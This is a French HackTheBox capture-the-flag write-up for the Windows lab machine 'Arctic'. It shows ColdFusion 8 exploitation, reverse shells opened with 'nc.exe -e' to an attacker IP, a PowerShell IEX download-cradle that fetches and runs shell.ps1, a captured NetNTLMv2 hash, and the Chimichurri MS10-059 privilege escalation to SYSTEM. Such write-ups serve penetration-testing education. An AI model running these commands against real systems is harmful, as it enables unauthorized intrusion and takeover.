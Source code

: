 ```yaml
---
title: HTB | Arctic
description: Arctic is an easy Windows machine that involves straightforward exploitation with some minor challenges. The process begins by troubleshooting the web server to identify the correct exploit. Initial access can be gained either through an unauthenticated file upload in Adobe ColdFusion. Once a shell is obtained, privilege escalation is achieved using the MS10-059 exploit.
slug: arctic-htb
date: 2025-03-08 00:00:00+0000
#image: cover.png
categories:
 - HackTheBox
tags:
 - Windows
 - Easy
#weight: 1
---
```


<table style="border:none; width:100%;">
  <tr>
    <!-- Colonne gauche : logo -->
    <td style="border:none; text-align:center; vertical-align:middle; width:150px;">
      <img src="cover.png" alt="Arctic cover" width="120">
    </td>
    <td style="border:none; text-align:center; vertical-align:middle;">
      <table style="margin:auto; border-collapse:collapse; border:1px solid #ddd;">
        <thead>
          <tr>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Machine name</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">OS</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">IP</th>
            <th style="padding:8px; border:1px solid #ddd; text-align:center;">Difficulty</th>
          </tr>
        </thead>
        <tbody>
          <tr>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Arctic</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Windows</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">10.10.10.11</td>
            <td style="padding:8px; border:1px solid #ddd; text-align:center;">Easy</td>
          </tr>
        </tbody>
      </table>
    </td>
  </tr>
</table>

## System Infos
```bash
Host Name:                 ARCTIC
OS Name:                   Microsoft Windows Server 2008 R2 Standard 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                55041-507-9857321-84451
Original Install Date:     22/3/2017, 11:09:45 ??
System Boot Time:          9/3/2025, 4:20:09 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     6.143 MB
Available Physical Memory: 4.964 MB
Virtual Memory: Max Size:  12.285 MB
Virtual Memory: Available: 11.080 MB
Virtual Memory: In Use:    1.205 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.11
```

## Enumeration

### nmap

```bash
$ nmap -sC -sV -An -p- 10.10.10.11
HTTP -> Port 8500
```

## Foothold

### Adobe Coldfusion 8
On accède à une page de connexion pour les administrateurs du serveur :
http://10.10.10.11:8500/CFIDE/administrator/enter.cfm

On note qu'il s'agit du service Adobe Coldfusion 8. On trouve directement un poc en python sur searchsploit et on obtient un shell sur la machine :
```bash
$ python3 exploit.py
...
Printing some information for debugging...
lhost: 10.10.14.10
lport: 1337
rhost: 10.10.10.11
rport: 8500
payload: 097d871e33a84bc8a3ed6002724b19ee.jsp

Deleting the payload...

Listening for connection...

Executing the payload...
listening on [any] 1337 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49235

Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin> whoami
arctic\tolis
```

### Stabilize powershell

Dans un premier temps, il a fallu obtenir un meilleur cmd.exe car il n'était pas stable du tout. Impossible d'obtenir directement un powershell (stable ou non).
Ensuite, avec ce nouveau cmd.exe stable (grace a un serveur smbshare et un nc.exe), j'ai pu utiliser un nouveau revershell pour obtenir un powershell stable a l'aide du repo de nishang et de Invoke-TcpXXX.ps1.
```bash
┌──(kali㉿kali)-[~/htb/Arctic]
└─$ impacket-smbserver share .
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.11,49414)
[*] AUTHENTICATE_MESSAGE (ARCTIC\tolis,ARCTIC)
[*] User ARCTIC\tolis authenticated successfully
[*] tolis::ARCTIC:aaaaaaaaaaaaaaaa:c542f5a7a35d08fb97440dcae060b508:01010000000000000079e8fa958fdb0199d3a7cce7b544db00000000010010004a00550051007500770064006b004300030010004a00550051007500770064006b00430002001000500073005400480047006e005800440004001000500073005400480047006e0058004400070008000079e8fa958fdb01060004000200000008003000300000000000000000000000003000006d512dfe482ef201bb28a406e85c0fc4005f2cfd87b665b2061df41978469e2b0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0031003000000000000000000000000000
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:SHARE)

------------INITIAL FOOTHOLD CMD.EXE-------------

C:\ColdFusion8\runtime\bin>\\10.10.14.10\share\nc.exe -e cmd.exe 10.10.14.10 4444
\\10.10.14.10\share\nc.exe -e cmd.exe 10.10.14.10 4444

-----------NEW CMD.EXE ON PORT 4444-----------------
┌──(kali㉿kali)-[~/htb/Arctic]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49435
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>\\10.10.14.10\share\nc.exe -e powershell.exe 10.10.14.10 5555
\\10.10.14.10\share\nc.exe -e powershell.exe 10.10.14.10 5555

C:\ColdFusion8\runtime\bin>powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8888/shell.ps1')
powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8888/shell.ps1')


-----------POWERSHELL ON PORT 1338------------------
┌──(kali㉿kali)-[~/htb/Arctic]
└─$ nc -lnvp 1338    
listening on [any] 1338 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 49451
Windows PowerShell running as user tolis on ARCTIC
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\ColdFusion8\runtime\bin>whoami
arctic\tolis
```

## Privilege Escalation

### Kernel Exploit : Chimichurri.exe
Searching for elevation privilege CVE using "wes" windows-exploits-suggester.
```bash
┌──(kali㉿kali)-[~/htb/Arctic]
└─$ wes ./arctic_systeminfo | grep -I 'Elevation of Privilege' -B7 | grep CVE-2010-2554 -A7 -B2  

Date: 20100810
CVE: CVE-2010-2554
KB: KB982799
Title: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
--
```
On trouve un github avec un exe deja compilé pour faire l'exploit:
> https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059%3A%20Chimichurri/Compiled/Chimichurri.exe
```bash
PS C:\Users\tolis> .\Chimichurri.exe
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Usage: Chimichurri.exe ipaddress port <BR>
PS C:\Users\tolis> .\Chimichurri.exe 10.10.14.10 7676

---------------------
                                            
┌──(kali㉿kali)-[~/htb/Arctic]
└─$ nc -lnvp 7676
listening on [any] 7676 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.11] 50748
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis>whoami
whoami
nt authority\system

C:\Users\tolis>cd ../Administrator\Desktop
cd ../Administrator\Desktop

C:\Users\Administrator\Desktop>type root.txt
type root.txt
8980.....ffb6
```